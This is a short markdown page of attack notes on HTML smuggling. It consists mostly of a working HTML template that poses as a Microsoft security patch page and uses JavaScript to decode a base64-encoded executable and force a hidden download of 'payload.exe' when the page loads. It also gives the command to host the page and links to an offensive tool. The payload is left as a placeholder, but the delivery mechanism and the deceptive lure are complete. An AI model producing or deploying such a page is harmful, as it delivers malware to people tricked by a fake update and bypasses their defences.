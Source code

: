 # HTML Smuggling

## 01 - Manual

`$ cat html_smuggling.html`

---

```html
<html>
    <body>
        <h1>
            Security Patch Update!
        </h1>
        <p>
            Please install this Microsoft security patch update!
        </p>
        <script>
            function Base64ToArray(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for(var i = 0; i < len; i++)
                    bytes[i] = binary_string.charCodeAt(i);
                return bytes.buffer;
            }
            // $ base64 -w 0 payload.exe
            var base64_binary = '<base64_payload>'
            
            var data = Base64ToArray(base64_binary);
            var blob = new Blob([data], {type: 'octet/stream'});
            var payloadfilename = 'payload.exe';
            
            var anchor = document.createElement('a');
            document.body.appendChild(anchor);
            anchor.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            anchor.href = url;
            anchor.download = payloadfilename;
            anchor.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

`$ sudo python -m http.server 80`

---
## References

- [A Detailed Guide on HTML Smuggling](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

- [GhostInHTML](https://github.com/exploitblizzard/GhostInHTML)